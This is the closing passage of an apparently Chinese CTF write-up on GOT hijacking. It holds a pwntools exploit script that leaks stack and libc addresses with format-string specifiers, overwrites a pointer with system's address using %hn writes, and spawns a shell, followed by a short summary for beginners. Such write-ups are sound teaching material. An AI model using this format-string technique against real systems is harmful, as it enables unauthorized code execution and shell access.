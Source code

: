 ```plain
elf = ELF('./pwn')
libc=ELF('./libc.so.6')

def duan():
    gdb.attach(p)
    pause()

ru('username:\n')
sl(p64(0x404020))
ru('password:\n')
sl(p64(0x404020))
sl('/bin/sh\x00')

ru('start')
sl('%15$p-%13$p')

ret=int(r(14),16)-0xc8
leak('ret ',ret)
ru('-')

libc_base=int(r(14),16)-0x24083
leak('libc_base ',libc_base)
system = libc_base + libc.sym['system'] 
system1 = system&0xffff
system2 = (system>>16)&0xff


addr1=ret&0xffff
leak('addr1 ',addr1)
leak('system ',system)
sla('start','%'+str(addr1)+'c%15$hn')
sla('start','%'+str(0x4020)+'c%43$hn')
sla('start','%'+str(system1)+'c%18$hn')
sla('start','%'+str(0x4022)+'c%43$hn')
#duan()
sla('start','%'+str(system2)+'c%18$hhn')
sla('start','exit')

itr()
```

## 总结

劫持 GOT 表不是一种独立的方法，要配合其他的漏洞进行利用，这里我配合着例题对这种利用方式进行了详细的解析，希望能够帮到正在入门的师傅们
